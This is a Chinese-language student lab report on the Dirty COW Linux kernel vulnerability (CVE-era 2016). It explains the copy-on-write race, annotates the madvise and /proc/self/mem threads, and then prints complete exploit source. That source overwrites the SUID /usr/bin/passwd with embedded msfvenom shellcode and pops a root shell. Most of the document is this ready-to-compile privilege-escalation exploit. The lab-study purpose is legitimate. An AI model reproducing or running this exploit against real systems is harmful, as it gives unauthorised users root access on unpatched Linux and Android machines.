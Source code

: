 # Exp 4 利用Dirty COW攻击操作系统

赵子瑞 PB14000296

## 1. 漏洞介绍  

Dirty COW是一个自Linux内核2.6.22以来就一直存在的一个漏洞, 这个漏洞在2016年的十月份才被发现, 在内核4.4.26及以上的版本中已经被修复. 这个漏洞会影响所有的基于Linux内核的系统, 比如在Android 7即一下的系统, 都被证实可以通过这个漏洞来获得root权限.

这个漏洞的原理是利用多线程写时复制(COW)时的竞争来允许用户对其本来没有足够的权限的文件进行更改. 当有两个线程或者进程去访问同一个文件的时候, 会有一定概率触发一个竞争条件, 这种时候, 在内存被拷贝之前就有一定概率被标记为可以写入, 这样就可以利用这个标记来修改一些原本无法修改的文件.

## 2. PoC

### a. 关键代码解析

```c
map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```

在攻击之前, 先创建好一个内存映射文件, 其具有读属性, 并且为私有的COW映射.

```c
void* procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}
```

上面这个函数的用途是试图去修改一个被映射到内存的文件, 其在确认修改成功之前会不停地尝试进行修改, 而下面的函数中是另一个用来和写入线程相互竞争的线程, 其核心函数就是madvise, 其用途是告诉内核一些关于内存处理的"提示", 比如这里MADV_DONTNEED, 含义是这些内存在短时间内不会再被访问, 系统可以回收这一块资源.所以程序中总共有两个线程, 第一个线程的作用是试图写入该文件, 这会产生一次COW, 并且随后又会被另外一个线程将这一块内存的拷贝删除, 双方就会往复地进行, 线程1试图写入, 系统就会为其创建一个新的内存的拷贝, 而线程2又将其释放, 当两者交替进行操作的时候, 就有可能一次COW还未被系统释放就被再次写入, 在一些条件下会导致其之间写道原内存上, 这样就达到了对无法写的内存进行读写的操作.

```c
void* madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}
```

由于可以对不可以写入的内存进行写入, 所以可以通过这种方式去修改passwd文件去获得root权限. 完整代码如下

### b. 源代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};

unsigned int sc_len = 177;


void *madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem",O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary, O_RDONLY);
    fstat(f, &st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len + 1);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

## 3. 实验结果

编译代码:

```shell
/run.sh
```

在科大云的环境中, 去运行程序, 可以得到如下结果:

![](E:\Pictures\Captures\359.png)